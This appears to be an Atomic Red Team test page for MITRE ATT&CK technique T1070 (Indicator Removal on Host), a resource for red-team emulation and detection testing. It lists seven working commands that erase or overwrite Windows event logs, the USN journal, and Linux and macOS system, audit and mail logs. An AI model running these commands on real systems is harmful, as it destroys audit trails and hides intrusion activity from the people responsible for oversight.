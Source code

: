 # T1070 - Indicator Removal on Host
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1070)
<blockquote>Adversaries may delete or alter generated artifacts on a host system, including logs and potentially captured files such as quarantined malware. Locations and format of logs will vary, but typical organic system logs are captured as Windows events or Linux/macOS files such as [Bash History](https://attack.mitre.org/techniques/T1139) and /var/log/* .

Actions that interfere with eventing and other notifications that can be used to detect intrusion activity may compromise the integrity of security solutions, causing events to go unreported. They may also make forensic analysis and incident response more difficult due to lack of sufficient data to determine what occurred.

### Clear Windows Event Logs

Windows event logs are a record of a computer's alerts and notifications. Microsoft defines an event as "any significant occurrence in the system or in a program that requires users to be notified or an entry added to a log." There are three system-defined sources of Events: System, Application, and Security.
 
Adversaries performing actions related to account management, account logon and directory service access, etc. may choose to clear the events in order to hide their activities.

The event logs can be cleared with the following utility commands:

* <code>wevtutil cl system</code>
* <code>wevtutil cl application</code>
* <code>wevtutil cl security</code>

Logs may also be cleared through other mechanisms, such as [PowerShell](https://attack.mitre.org/techniques/T1086).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Clear Logs](#atomic-test-1---clear-logs)

- [Atomic Test #2 - FSUtil](#atomic-test-2---fsutil)

- [Atomic Test #3 - rm -rf](#atomic-test-3---rm--rf)

- [Atomic Test #4 - Overwrite Linux Mail Spool](#atomic-test-4---overwrite-linux-mail-spool)

- [Atomic Test #5 - Overwrite Linux Log](#atomic-test-5---overwrite-linux-log)

- [Atomic Test #6 - Delete System Logs Using PowerShell](#atomic-test-6---delete-system-logs-using-powershell)

- [Atomic Test #7 - Delete System Logs Using Clear-EventLogId](#atomic-test-7---delete-system-logs-using-clear-eventlogid)


<br/>

## Atomic Test #1 - Clear Logs
Clear Windows Event Logs

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| log_name | Windows Log Name, ex System | String | System|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
wevtutil cl #{log_name}
```






<br/>
<br/>

## Atomic Test #2 - FSUtil
Manages the update sequence number (USN) change journal, which provides a persistent log of all changes made to files on the volume.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
fsutil usn deletejournal /D C:
```






<br/>
<br/>

## Atomic Test #3 - rm -rf
Delete system and audit logs

**Supported Platforms:** macOS, Linux



#### Attack Commands: Run with `sh`! 
```
rm -rf /private/var/log/system.log*
rm -rf /private/var/audit/*
```






<br/>
<br/>

## Atomic Test #4 - Overwrite Linux Mail Spool
This test overwrites the Linux mail spool of a specified user. This technique was used by threat actor Rocke during the exploitation of Linux web servers.

**Supported Platforms:** Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of mail spool | String | root|


#### Attack Commands: Run with `bash`! 
```
echo 0> /var/spool/mail/#{username}
```






<br/>
<br/>

## Atomic Test #5 - Overwrite Linux Log
This test overwrites the specified log. This technique was used by threat actor Rocke during the exploitation of Linux web servers.

**Supported Platforms:** Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| log_path | Path of specified log | Path | /var/log/secure|


#### Attack Commands: Run with `bash`! 
```
echo 0> #{log_path}
```






<br/>
<br/>

## Atomic Test #6 - Delete System Logs Using PowerShell
Recommended Detection: Monitor for use of the windows event log filepath in PowerShell couple with delete arguments

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$eventLogId = Get-WmiObject -Class Win32_Service -Filter "Name LIKE 'EventLog'" | Select-Object -ExpandProperty ProcessId
Stop-Process -Id $eventLogId -Force
Remove-Item C:\Windows\System32\winevt\Logs\Security.evtx
```

#### Cleanup Commands:
```
Start-Service -Name EventLog
```





<br/>
<br/>

## Atomic Test #7 - Delete System Logs Using Clear-EventLogId
Clear event logs using built-in PowerShell commands

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
Clear-EventLog -logname Application
```






<br/>
